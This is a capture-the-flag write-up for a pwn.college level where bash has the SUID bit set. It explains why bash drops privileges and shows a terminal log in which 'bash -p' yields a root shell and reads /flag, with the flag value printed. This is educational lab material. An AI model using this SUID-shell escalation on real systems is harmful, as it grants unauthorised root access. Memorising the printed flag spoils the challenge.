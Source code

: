 `bash`

https://www.freecodecamp.org/news/bash-scripting-tutorial-linux-shell-script-and-command-line-for-beginners/

The problem seems very very easy.
There are multiple ways of approach to solve this problem. As the `bash` is running as `SUID` and `bash` being the default interpreter of your Linux terminal, logic says if I write `cat /flag` it should print the flag.

Also we can write a simple `bash` script to print the content of the `flag` file, we can create a `test.sh` with `touch test.sh` and then `nano test.sh` and write this code:

```bash
while read -r line; 
do
    echo "$line";
done < /flag
```

or,

```bash
read -r line < /flag
echo $line
```

But every time it says `/flag: Permission denied`. Looks like it can't access the `flag` although the `bash` has been `SUID`.

Actually what is happening is that as the `SUID` has been set we are executing `bash` like `pseudo-root` but when `bash` sees that we are not actual `root` rather acting like a `root`, it drops the privileges that we achieved by `SUIDing` the `bash`. It's called `mitigation` which reduces the harm caused by `command injection` because most `command injection vulnerabilities end up hijacking /bin/sh`.

To disable `mitigation` , `bash -p [command]` is used.

Please the `lecture 3` of this module.

```bash
hacker@program-misuse-level-44:~$ /challenge/babysuid_level44 
Welcome to /challenge/babysuid_level44!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/bash.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level44) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/bash!
hacker@program-misuse-level-44:~$ cat /flag
cat: /flag: Permission denied
hacker@program-misuse-level-44:~$ touch test.sh
hacker@program-misuse-level-44:~$ ls -l test.sh
-rw-r--r-- 1 hacker hacker 0 Jan  3 15:57 test.sh
hacker@program-misuse-level-44:~$ nano test.sh
hacker@program-misuse-level-44:~$ ./test.sh
bash: ./test.sh: Permission denied
hacker@program-misuse-level-44:~$ ls -l test.sh
-rw-r--r-- 1 hacker hacker 50 Jan  3 15:59 test.sh
hacker@program-misuse-level-44:~$ chmod +x test.sh
hacker@program-misuse-level-44:~$ ls -l test.sh
-rwxr-xr-x 1 hacker hacker 50 Jan  3 15:59 test.sh
hacker@program-misuse-level-44:~$ ./test.sh 
./test.sh: line 4: /flag: Permission denied
hacker@program-misuse-level-44:~$ bash test.sh
test.sh: line 4: /flag: Permission denied
hacker@program-misuse-level-44:~$ cat /flag
cat: /flag: Permission denied
hacker@program-misuse-level-44:~$ bash -p
bash-5.0# cat /flag
pwn.college{EnObqOPRVwUqRJPeNZWBkiZTWwz.0lN4EDL0AjNzQzW}
bash-5.0# exit
exit
hacker@program-misuse-level-44:~$ bash -p test.sh
pwn.college{EnObqOPRVwUqRJPeNZWBkiZTWwz.0lN4EDL0AjNzQzW}
```